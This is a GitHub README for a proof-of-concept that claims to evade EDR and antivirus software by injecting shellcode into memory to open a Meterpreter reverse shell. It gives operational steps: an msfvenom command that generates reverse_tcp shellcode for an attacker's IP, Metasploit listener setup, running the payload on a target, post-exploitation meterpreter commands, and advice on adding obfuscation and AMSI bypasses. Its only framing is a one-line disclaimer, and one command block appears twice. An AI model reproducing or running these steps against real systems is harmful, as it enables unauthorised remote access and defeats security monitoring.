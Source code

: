 # EDR-Antivirus-Bypass-to-Gain-Shell-Access

## EDR & Antivirus Bypass to Gain Shell Access

This repository contains a **proof-of-concept (PoC)** for bypassing EDR and antivirus solutions using a memory injection technique. The code executes shellcode that spawns a reverse shell, successfully evading detection by various security mechanisms.

---

## Description

This project demonstrates how to bypass EDR and antivirus protection using Windows API functions such as `VirtualAlloc`, `CreateThread`, and `WaitForSingleObject`. The payload is injected directly into the process memory without being detected by security tools, establishing a connection to a remote system for a reverse shell.

> **Disclaimer:** This code is for educational purposes only. Use it responsibly and only in environments where you have explicit permission to test.

---

## Features

- Bypasses standard EDR and antivirus solutions
- Executes shellcode in memory to create a reverse shell
- Utilizes `VirtualAlloc` and `CreateThread` to inject the payload directly into process memory

---

## Requirements

- Windows Operating System (Tested on Windows 10)
- Kali Linux (For reverse shell listener)
- Visual Studio or any C# compiler

---

## Steps to Compile & Run

### 1. Clone the Repository

```bash
git clone https://github.com/YOUR_USERNAME/EDR-Antivirus-Bypass-Shell.git
cd EDR-Antivirus-Bypass-Shell
```


### 2. Modify Shellcode

Before compiling, ensure that you modify the shellcode to point to your own IP address and port for the reverse shell. You can generate shellcode using `msfvenom:`
```bash
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=<YOUR_IP> LPORT=<YOUR_PORT> -f csharp
```

Replace the `byte[] buf` section in Program.cs with the shellcode you just generated.


### 3. Compile the Code

Open the project in Visual Studio, or use the following command to compile the code using the .NET SDK:


```bash
csc Program.cs
```

**Alternatively, you can compile in Release mode for better optimization:


```bash
csc -optimize Program.cs
```


### 4. Start a Listener on Kali

On your Kali Linux machine, start a listener to catch the reverse shell. Use the following commands in Metasploit:


```bash
msfconsole
use exploit/multi/handler
set payload windows/x64/meterpreter/reverse_tcp
set LHOST <YOUR_IP>
set LPORT <YOUR_PORT>
run
```


### 5. Execute the Payload

Transfer the compiled .exe file to the Windows machine. You can execute the file manually or use any other method to run the file:


```bash
Program.exe
```


6. Obtain the Shell

Once the payload is executed on the target machine, you should see a reverse shell session open in your Metasploit console. From there, you can interact with the system:



```bash
meterpreter > sysinfo
meterpreter > shell
```


7. Additional Bypass Techniques

To avoid detection by advanced EDR solutions, consider using techniques like process injection, obfuscation, or AMSI bypasses. This PoC can be extended with these methods for more robust evasion.


```bash
meterpreter > sysinfo
meterpreter > shell
```






